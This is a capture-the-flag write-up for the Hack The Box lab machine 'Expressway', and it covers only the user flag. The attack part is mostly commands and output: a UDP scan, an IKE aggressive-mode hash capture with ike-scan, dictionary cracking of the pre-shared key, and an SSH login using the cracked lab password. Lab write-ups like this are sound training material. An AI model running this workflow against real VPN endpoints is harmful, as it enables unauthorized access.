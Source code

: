 ### How to get the User flag?
This machine doesn’t have a guided mode. There are only two fields: one for the user flag and one for the root flag. Other than the IP address, no information is given, so the idea is probably to start with a port scan. When I scanned the TCP ports using rustscan or nmap, only port 22 (SSH) was open. Since rustscan doesn’t support UDP scans, I used nmap instead, and it showed more open ports on UDP.

#### Step1. UDP ports scanning
```
┌──(kali㉿kali)-[~/Templates]
└─$ nmap -sU --top-ports 100 10.10.11.87
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 02:35 EDT
Nmap scan report for 10.10.11.87
Host is up (0.83s latency).
Not shown: 92 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open|filtered domain
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp
4500/udp  open|filtered nat-t-ike
32769/udp open|filtered filenet-rpc
49153/udp open|filtered unknown
49194/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 193.41 seconds
```

#### Step2. ike-scan and get psk
```
┌──(kali㉿kali)-[~/Templates]
└─$ ike-scan -A -P psk.params 10.10.11.87
WARNING: gethostbyname failed for "psk.params" - target ignored: Resource temporarily unavailable
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=0e1c97b8743a080d) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
89f99e1a29cb59037b14f3325d46bbfd25b2260551c8a167a85ec24cde9caa30ab9c50d7cc452f0cafbfa5b6b2c9d18951b85bf84eeafcb2ebd0622cda81fa86b62a35b935dba47788684bc8d1cf2e1e265b412842757323af7e2e507bec093176409d38a6568eb8ff74d942c981a735dba5813c042f8aa186dd864cacf941cb:03d99ac0667b18937a39b7912a7aef4fe60a9301a88bd1e6eb8bff84323aa8623c4d5bbaea1f0cd11ff575dd2e1c6cd626061e62ccd9a796c5afedc416fb87d2d78ee95036e2e0b95e84afa53b39379772dd6ce3c0ab799234d25b44a3704ea46298f8fb439cab3395dff719f7c2b54883c99c5f9dfdcd04781a8769ebc1f070:0e1c97b8743a080d:2964183e2e566e68:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:85aa8a5d1c69c9cba730568a811c0f3c5b06ea2b:cf56c1597313e226750d658f65f11d522b610c6176607df78b1648a4fae0808b:9bd318f6efe2e690e83c377091b1621cf482ed3a
Ending ike-scan 1.9.6: 1 hosts scanned in 10.315 seconds (0.10 hosts/sec).  1 returned handshake; 0 returned notify
```

#### Step3. Get the password
```
┌──(kali㉿kali)-[~/Templates]
└─$ psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash dc96a3f62923879c4a2cd3ff60f0d3d9fbc8d298
Ending psk-crack: 8045040 iterations in 4.417 seconds (1821367.42 iterations/sec)
```

#### Step4. User login via SSH
```
┌──(kali㉿kali)-[~/Templates]
└─$ ssh ike@10.10.11.87
ike@10.10.11.87's password: 
Last login: Tue Oct 21 07:24:01 BST 2025 from 10.10.11.87 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 21 07:27:05 2025 from 10.10.16.2
ike@expressway:~$ id
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
ike@expressway:~$ cat user.txt
user-flag
```

### How to get the Root flag?
Empty

### Ref
- Target : https://app.hackthebox.com/machines/Expressway
